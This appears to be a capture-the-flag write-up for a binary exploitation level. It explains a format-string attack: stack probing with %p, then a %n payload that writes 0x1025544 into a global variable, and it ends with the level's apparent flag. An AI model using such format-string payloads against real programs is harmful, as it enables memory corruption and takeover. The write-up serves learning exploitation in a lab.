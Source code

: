 everything in the last challenge applies to this one but with a slight difference.

the `printf` function is called in a sub function which means that if we want to jump to the desired address we have to take in consideration that there is another stack frame from which the print statement is called:

```
[lower addresses]
+-------------------+
|                   | 
|                   | 
|  printf call      | <- p func stack frame
|                   | 
|                   |
+-------------------+
|                   |
|                   |
|  addr we want to  |
|   reach           | <- n func stack frame
|                   |
|                   | 
+-------------------+
|                   | <- main func stack frame
+-------------------+
[higher addresses]
```

```bash
➜  level4 git:(main) ✗ ./level4 
AAAA%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
AAAA0xf7eebf94 0xffb3e6e0 0xf7eb1000 0xffb3e774 0xf7f0fb80 0xffb3e6a8 0x804848d 0xffb3e4a0 0x200 0xf7eb1620 0x380 0x41414141 <- "the address we want is in the 12th position" 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
```

the address of the global variable `m` this time is `0x8049810` and the value we want to put there is `0x1025544`

```bash
python -c 'print "\x10\x98\x04\x08%16930112x%12$n"' | ./level4
# 1 million spaces later... hihi
                                                                         b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

and there you go.
